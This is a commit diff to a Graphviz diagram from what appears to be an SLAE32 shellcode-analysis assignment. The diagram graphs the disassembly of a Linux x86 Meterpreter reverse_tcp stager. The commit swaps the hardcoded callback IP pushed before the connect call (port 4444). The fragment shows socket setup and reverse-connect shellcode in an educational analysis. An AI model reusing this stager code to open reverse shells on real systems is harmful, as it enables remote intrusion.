

One commit to blu3gl0w13/SLAE32 changed the diagram in assignment-5/linux-x86-meterpreter-reverse_tcp.dot. Above: the diagram before and after it, drawn with Graphviz. The commit also changed 20 other files, not shown here.

```diff
--- a/assignment-5/linux-x86-meterpreter-reverse_tcp.dot
+++ b/assignment-5/linux-x86-meterpreter-reverse_tcp.dot
@@ -1,13 +1,13 @@
 digraph G {
 	//rankdir=LR
 	node [fontname=Courier, labeljust=r];
-	 "0x2100a60" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 F7E3                            mul ebx\l0x00417004 53                              push ebx\l0x00417005 43                              inc ebx\l0x00417006 53                              push ebx\l0x00417007 6A02                            push byte 0x2\l0x00417009 B066                            mov al,0x66\l0x0041700b 89E1                            mov ecx,esp\l"]
-	 "0x2100180" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041700d socket\l"]
-	 "0x2101050" [shape=box, label = "0x0041700f 97                              xchg eax,edi\l0x00417010 5B                              pop ebx\l0x00417011 68C0A83866                      push dword 0x6638a8c0\l0x00417016 680200115C                      push dword 0x5c110002\l0x0041701b 89E1                            mov ecx,esp\l0x0041701d 6A66                            push byte 0x66\l0x0041701f 58                              pop eax\l0x00417020 50                              push eax\l0x00417021 51                              push ecx\l0x00417022 57                              push edi\l0x00417023 89E1                            mov ecx,esp\l0x00417025 43                              inc ebx\l"]
-	 "0x2106600" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417026 connect\l"]
-	 "0x2106790" [shape=box, label = "0x00417028 B207                            mov dl,0x7\l0x0041702a B900100000                      mov ecx,0x1000\l0x0041702f 89E3                            mov ebx,esp\l0x00417031 C1EB0C                          shr ebx,0xc\l0x00417034 C1E30C                          shl ebx,0xc\l0x00417037 B07D                            mov al,0x7d\l"]
-	 "0x2100a60" -> "0x2100180" [style = bold ]
-	 "0x2100180" -> "0x2101050" [style = bold ]
-	 "0x2101050" -> "0x2106600" [style = bold ]
-	 "0x2106600" -> "0x2106790" [style = bold ]
+	 "0x8d45f70" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 F7E3                            mul ebx\l0x00417004 53                              push ebx\l0x00417005 43                              inc ebx\l0x00417006 53                              push ebx\l0x00417007 6A02                            push byte 0x2\l0x00417009 B066                            mov al,0x66\l0x0041700b 89E1                            mov ecx,esp\l"]
+	 "0x8d48638" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041700d socket\l"]
+	 "0x8d48710" [shape=box, label = "0x0041700f 97                              xchg eax,edi\l0x00417010 5B                              pop ebx\l0x00417011 68AC104988                      push dword 0x884910ac\l0x00417016 680200115C                      push dword 0x5c110002\l0x0041701b 89E1                            mov ecx,esp\l0x0041701d 6A66                            push byte 0x66\l0x0041701f 58                              pop eax\l0x00417020 50                              push eax\l0x00417021 51                              push ecx\l0x00417022 57                              push edi\l0x00417023 89E1                            mov ecx,esp\l0x00417025 43                              inc ebx\l"]
+	 "0x8d49320" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417026 connect\l"]
+	 "0x8d49400" [shape=box, label = "0x00417028 B207                            mov dl,0x7\l0x0041702a B900100000                      mov ecx,0x1000\l0x0041702f 89E3                            mov ebx,esp\l0x00417031 C1EB0C                          shr ebx,0xc\l0x00417034 C1E30C                          shl ebx,0xc\l0x00417037 B07D                            mov al,0x7d\l"]
+	 "0x8d45f70" -> "0x8d48638" [style = bold ]
+	 "0x8d48638" -> "0x8d48710" [style = bold ]
+	 "0x8d48710" -> "0x8d49320" [style = bold ]
+	 "0x8d49320" -> "0x8d49400" [style = bold ]
 }
```
